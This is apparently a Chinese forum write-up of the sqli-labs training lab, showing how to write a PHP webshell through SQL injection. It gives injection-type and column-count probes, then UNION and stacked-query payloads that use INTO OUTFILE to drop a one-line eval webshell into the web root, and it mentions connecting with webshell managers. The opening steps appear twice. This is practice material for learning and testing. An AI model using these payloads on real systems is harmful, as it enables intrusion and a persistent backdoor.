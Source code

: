 1.判断注入类型

`http://127.0.0.1/sqli-labs-master/Less-7/?id=1'` 报错  
`http://127.0.0.1/sqli-labs-master/Less-7/?id=1')) --+` 正常

2.判断列数

`http://127.0.0.1/sqli-labs-master/Less-7/?id=1')) order by 3 --+` 正常

`http://127.0.0.1/sqli-labs-master/Less-7/?id=1')) order by 4 --+` 报错

说明存在3列

3.文件写入

1.判断注入类型

`http://127.0.0.1/sqli-labs-master/Less-7/?id=1'` 报错  
`http://127.0.0.1/sqli-labs-master/Less-7/?id=1')) --+` 正常

2.判断列数

`http://127.0.0.1/sqli-labs-master/Less-7/?id=1')) order by 3 --+` 正常

`http://127.0.0.1/sqli-labs-master/Less-7/?id=1')) order by 4 --+` 报错

说明存在3列

3.文件写入

`http://127.0.0.1/sqli-labs-master/Less-7?id=1')) UNION SELECT 1,2,'<?php @e val($_POST["v"]);?>' into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\hack.php" --+`

或者`"D:/phpStudy/PHPTutorial/WWW/hack.php"`，就是不能`\`，经过测试这样导入不成功。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-552f39c375c5212fc08386ecd87c7c686fdc7942.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-552f39c375c5212fc08386ecd87c7c686fdc7942.png)

上面的图中报了错：`You have an error in your SQL syntax`,显示sql出错了，但是没有关系，我们可以在文件中看到hack.php已经生成了。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e0ef58e08c832fae54ed4ad81ae2f7aff1158d63.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e0ef58e08c832fae54ed4ad81ae2f7aff1158d63.png)

这时候用菜刀等webshell管理工具连接就可以了，我下面用的是蚁剑，可以看到连接成功。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d89d62169c433e22a1227ad7104484a250df1de7.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d89d62169c433e22a1227ad7104484a250df1de7.png)

堆叠注入：`http://127.0.0.1/sqli-labs-master/Less-40/?id=1');SELECT '<?php @e val($_POST["v"]);?>' into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\hack.php";--+`

然后该目录下便生成了我们的马儿，用shell管理工具便可成功连接。从这里可以看到一定要知道网站的绝对路径。

直接成功登录数据库的into outfile写入一句话木马可以说是方法和前面两个的差不多，就是可以用`show`来看全局变量的值。这里就不赘述了。